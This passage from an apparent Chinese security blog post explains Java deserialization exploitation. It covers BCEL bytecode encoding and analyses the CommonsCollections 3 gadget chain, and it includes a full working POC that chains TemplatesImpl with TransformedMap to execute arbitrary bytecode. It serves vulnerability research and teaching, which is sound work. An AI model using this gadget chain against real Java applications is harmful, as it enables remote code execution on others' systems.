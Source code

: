 通过 BCEL 提供的两个类 `Repository` 和 `Utility` 来利用：用于将一个 Java Class 先转换成原生字节码，当然这里也可以直接使用 javac 命令来编译 java 文件生成字节码；Utility 用于将原生的字节码转换成 BCEL 格式的字节码：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```java<br>import com.sun.org.apache.bcel.internal.Repository;<br>import com.sun.org.apache.bcel.internal.classfile.Utility;<br>import com.sun.org.apache.bcel.internal.classfile.JavaClass;<br><br>public class BCELdemo {<br>    public static void main(String[] args) throws Exception {<br>        JavaClass cls = Repository.lookupClass(evil.Hello.class);<br>        String code = Utility.encode(cls.getBytes(), true);<br>        System.out.println(code);<br>    }<br>}<br>``` |

而 `BCEL ClassLoader` 用于加载这串特殊的 `bytecode`，并可以执行其中的代码：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108310956413.png-water_print](assets/1699411658-686df30136add2d7f79ecf4ae8ea2723.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108310956413.png-water_print")

## [](#2-commonscollections-3-gadget-%E5%88%86%E6%9E%90)2 CommonsCollections 3 Gadget 分析

在 CC1 中，利用 TransformedMap 来执行任意方法，上一节中提到过，利用 TemplatesImpl 执行字节码，可以将两者合并，构造出如下 POC：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>``` | ```java<br>package com.geekby.cc3test;<br><br><br>import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import java.lang.reflect.Field;<br>import java.nio.file.Files;<br>import java.nio.file.Paths;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class Main {<br>    public static void main(String[] args) throws Exception {<br>        byte[] code = Files.readAllBytes(Paths.get("HelloTemppaltesImpl.class"));<br><br>        TemplatesImpl obj = new TemplatesImpl();<br>        setFieldValue(obj, "_bytecodes", new byte[][] {code});<br>        setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br><br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(obj),<br>                new InvokerTransformer("newTransformer", null, null)<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br>        outerMap.put("test", "poc");<br><br>    }<br><br>    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {<br>        Field field = obj.getClass().getDeclaredField(fieldName);<br>        field.setAccessible(true);<br>        field.set(obj, value);<br>    }<br>}<br>``` |

但是，在 ysoserial 中的 CC3 中，并没有用到 `InvokerTransformer`。

SerialKiller 是一个 Java 反序列化过滤器，可以通过黑名单与白名单的方式来限制反序列化时允许通过的类。在其发布的第一个版本代码中，可以看到其给出了最初的黑名单：
